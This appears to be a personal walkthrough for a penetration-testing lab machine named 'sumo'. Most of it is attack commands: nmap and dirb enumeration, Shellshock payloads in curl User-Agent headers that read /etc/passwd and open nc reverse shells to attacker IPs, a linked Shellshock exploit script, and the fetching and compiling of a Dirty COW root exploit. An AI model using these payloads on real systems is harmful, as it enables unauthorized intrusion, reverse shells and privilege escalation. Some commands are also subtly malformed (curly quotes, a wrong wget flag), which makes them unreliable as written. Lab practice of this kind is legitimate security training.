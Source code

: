 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# sumo
# 1/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
2121/tcp filtered ccproxy-ftp


dirb http://192.168.138.87

dirb http://192.168.138.87cgi-bin /usr/share/wordlists/dirb/big.txt
http://192.168.138.87/cgi-bin/test
 () { :;}; /bin/bash -c ‘nc 192.168.234.166 1337 -e /bin/sh’

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://192.168.138.87/cgi-bin/test 

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'nc 192.168.49.138 1234 -e /bin/sh'" \
http://192.168.138.87/cgi-bin/test 

exploit
https://github.com/b4keSn4ke/CVE-2014-6271
nc -lvnp 1234  
python3 shellshock.py 192.168.49.138 1234 http://192.168.138.87/cgi-bin/test 


uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
wget https://www.exploit-db.com/raw/40839 -o cow.c

gcc -pthread cow.c -o dirty -lcrypt